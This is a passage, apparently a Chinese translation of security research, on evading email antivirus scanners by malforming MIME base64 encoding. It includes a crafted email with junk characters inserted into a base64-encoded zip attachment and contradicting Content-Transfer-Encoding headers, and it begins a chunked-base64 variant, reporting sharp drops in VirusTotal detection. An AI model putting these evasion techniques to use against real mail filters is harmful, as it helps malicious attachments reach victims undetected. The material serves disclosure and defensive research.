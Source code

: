 > 编码的输出流必须以不超过76个字符的行表示。解码软件必须忽略表1中未找到的所有换行符或其他字符。在base64数据中，除表1中的字符，换行符和其他空格之外的字符可能表示传输错误，在某些情况下，警告消息甚至消息拒绝可能是适当的。

基于此，我们在Base64编码中插入了大量垃圾数据，并最终收到一封邮件，Virustotal的检测率从36降至17：

```
From: me@example.com
To: you@example.com
Subject: junk characters inside Base64 combined with contradicting CTE
Content-type: multipart/mixed; boundary=foo

--foo
Content-type: text/plain

```

病毒附加

```
--foo
Content-type: application/zip; name=whatever.zip
Content-Transfer-Encoding: base64
Content-Transfer-Encoding: quoted-printable

U.E.s.D.B.B.Q.A.A.g.A.I.A.B.F.K.j.k.k.8.z.1.F.o.R.g.A.A.A.E.Q.
A.A.A.A.J.A.A.A.A.Z.W.l.j.Y.X.I.u.Y.2.9.t.i.z.D.1.V.w.x.Q.d.X.
A.M.i.D.a.J.C.Y.i.K.M.D.X.R.C.I.j.T.N.H.d.2.1.
j.S.v.V.X.H.1.d.H.Y.M.0.g.0.O.c.f
.R.z.c.Q.x.y.0.X.X.0.C./.E.M.8.w.w.K.D.d.Y.N.c.Q.0.O.0.X.X.z.
9.H.F.V.V.P.H.Q.9.t.A.C.A.F.B.L.A.Q.I.U.
A.x.Q.A.A.g.A.I.A.B.F.K.j.k.k.8.z.1.F.o.R.g.A.A.A.E.Q
.A.A.A.A.J.A.A.A.A.A.A.A.A.A.A.A.A.A.A.C.2.g.Q.A.A.A.A.B.l.a.
W.N.h.c.i.5.j.b.2.1.Q.S.w.U.G.A.A.A.A.
A.A.E.A.A.Q.A.3.A.A.A.A.b.Q.A.A.A.A.A.A.
```

请注意，这并不意味着所有受影响的产品都无法处理Base64中的垃圾字符。更有可能的是，大多数这些产品在步骤2中都没有检测到原始的内容转移编码，但是使用了一种启发式来检测Base64编码，不管它在哪里。通过添加垃圾字符，这个启发式失败了。



## 第4步：Chunked Base64编码

在这一步中，我们回过头来，不再使用垃圾字符。相反，我们以不同的方式攻击Base64编码：正确的编码总是需要3个输入字符并将这些编码编码为4个输出字符。如果最后只剩下一个或两个输入字符，则输出仍然是4个字符，用’==’（一个输入字符）或’=’（两个输入字符）填充。

这意味着’=’或’==’应仅位于编码数据的末尾。因此，一些解码器将停在第一个’=’。例如，Thunderbird总是读取4个字节的编码数据并对其进行解码，并且不会改变中间编码数据与末尾编码数据的’=’行为。这导致了不是一次编码总共3个字符而是一次只编码2个字符的想法，在编码数据中留下了很多’=’。Thunderbird将像原始邮件一样处理此邮件，但Virustotal的检测率从36下降到1个：

```
From: me@example.com
To: you@example.com
Subject: Base64 encoded in small chunks instead one piece + contradicting CTE
Content-type: multipart/mixed; boundary=foo

--foo
Content-type: text/plain

```
